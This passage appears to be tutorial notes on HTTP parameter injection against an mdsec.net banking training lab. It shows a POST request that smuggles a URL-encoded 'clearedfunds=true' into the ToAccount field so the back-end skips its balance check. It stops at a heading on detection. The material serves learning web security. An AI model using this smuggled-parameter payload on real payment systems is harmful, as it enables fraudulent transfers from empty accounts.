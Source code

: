 If this parameter is present, the back-end **skips validating whether the account has enough money**. Normally, the front-end shouldn’t send this. But if you can sneak it in, the money goes through—even if the account is empty.

---

### 🧠 **Payload Logic: How to Sneak in an Extra Parameter**

Here's how you inject `clearedfunds=true` from the front-end:

```
POST /bank/48/Default.aspx HTTP/1.0
Host: mdsec.net
Content-Length: 96

FromAccount=18281008&Amount=1430&ToAccount=08447656%26clearedfunds%3dtrue&Submit=Submit
```

> ✅ **Explanation of the Payload**
> You inject the string `&clearedfunds=true` into the **value of an existing parameter**, like `ToAccount`.
> To do this stealthily, you URL-encode:

* `&` as `%26`
* `=` as `%3d`

So this:

```
ToAccount=08447656%26clearedfunds%3dtrue
```

Becomes this when decoded by the server:

```
ToAccount=08447656&clearedfunds=true
```

> 💡 **Why this works:**
> The front-end app sees `ToAccount` as one string. But when it builds the back-end request, it **just slaps that value into the URL without validating it**, causing a new parameter (`clearedfunds=true`) to appear in the back-end request.

Here’s the final back-end payload:

```
POST /doTransfer.asp HTTP/1.0
Host: mdsec-mgr.int.mdsec.net
Content-Length: 62

fromacc=18281008&amount=1430&toacc=08447656&clearedfunds=true
```

The app **skips the cleared funds check**, and the transfer succeeds.

---

### 🧪 How to Detect It (Hack Steps)
